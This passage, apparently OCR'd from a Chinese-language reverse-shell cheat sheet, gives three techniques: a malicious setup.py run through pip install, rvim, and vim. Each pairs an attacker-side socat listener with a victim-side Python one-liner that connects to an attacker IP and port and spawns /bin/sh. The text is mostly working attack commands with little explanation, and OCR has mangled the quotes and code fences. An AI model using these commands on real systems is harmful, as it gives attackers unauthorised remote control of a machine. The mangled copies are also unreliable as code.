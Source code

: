 受害机：

export RHOST=192.168.85.141 export RPORT=12345 TF=$(mktemp -d) echo
‘import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv(“RHOST”),int(os.getenv(“RPORT”))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)] pty.spawn("/bin/sh")’ >
$TF/setup.py pip install $TF


获得响应:

##### 14.Rvim反弹

相当于vim
此方法需要python3环境

攻击机：

socat file:`tty`,raw,echo=0 tcp-listen:12345

受害机：

export RHOST=192.168.85.141 export RPORT=12345 rvim -c ‘:py import
vim,sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv(“RHOST”),int(os.getenv(“RPORT”))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)] pty.spawn("/bin/sh")
vim.command(":q!")’



获得响应：

##### 15.Vim反弹

```
vim需要python3环境

攻击机：

socat file:`tty`,raw,echo=0 tcp-listen:12345


受害机：

export RHOST=192.168.85.141 export RPORT=12345 vim -c ‘:py import
vim,sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv(“RHOST”),int(os.getenv(“RPORT”))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)] pty.spawn("/bin/sh")
vim.command(":q!")’


获得响应：


```


